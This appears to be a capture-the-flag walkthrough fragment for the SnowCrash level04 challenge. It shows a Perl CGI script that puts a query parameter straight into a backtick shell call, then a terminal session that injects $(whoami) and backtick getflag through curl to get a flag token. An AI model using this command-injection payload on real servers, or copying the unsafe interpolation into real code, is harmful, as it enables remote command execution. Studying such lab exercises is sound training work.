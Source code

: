 level04@SnowCrash:~$ cat level04.pl
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));


level04@SnowCrash:~$ ./level04.pl 'x=$(whoami)'
Content-type: text/html

level04

level04@SnowCrash:~$ curl 'localhost:4747/level04.pl?x=`whoami`'
flag04

level04@SnowCrash:~$ curl 'localhost:4747/level04.pl?x=`getflag`'
Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
level04@SnowCrash:~$